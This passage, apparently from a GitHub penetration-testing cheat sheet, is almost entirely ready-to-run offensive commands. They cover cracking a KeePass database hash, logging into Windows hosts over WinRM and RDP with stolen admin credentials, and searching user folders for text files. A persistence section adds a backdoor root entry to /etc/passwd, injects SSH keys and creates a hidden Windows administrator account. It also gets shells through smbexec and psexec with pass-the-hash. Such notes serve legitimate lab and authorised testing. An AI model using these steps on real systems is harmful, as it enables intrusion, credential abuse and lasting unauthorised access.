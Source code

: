 ```
keepass2john > kee.hash
john *.hash
```

### Useful Windows access
When you have Admin creds, try winrm and rdp for shell/GUI access
```bash
# winrm
evil-winrm -i IP -u USER -p PASS
# rdp, /d is optional
xfreerdp /v:IP /u:USER /p:PASS /d:DOMAIN
# rdesktop
rdesktop -u username IP
```

### Enumerate certain directory and find all txt files
```powershell
gci -force -recurse -Path 'C:\users\' -include *.txt
```

### Persistent foothold
After gaining the the system/root access of the system.
Adding another root/administrator user to the system for future access so that you don't have to hack into again.
#### Linux
```bash
# 1. Add an entry to /etc/passwd manually
openssl passwd YOUR_PW #Generate the password hash
echo "Fakeuser:${HASH}:0:0:root:/root:/bin/bash" >> /etc/passwd
# Use this profile to access as root
# 2. SSH key injection
# Use existing ssh key or create one
ssh-keygen # to create ssh key
cat id_rsa.pub # copy the content then return to the target
echo "PUB_KEY_CONTENT" >> ~/.ssh/authorized_keys
```
#### Windows
```powershell
# 1. Inject admin group user
net user tmp PW /add
net localgroup Administrator tmp /add
# Then use winrm/rdp to access if available
# 2. If you own the admin creds/hash
# smbexec.py for administrator shell
smbexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
smbexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH
# psexec.py for system shell
psexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
psexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH
```
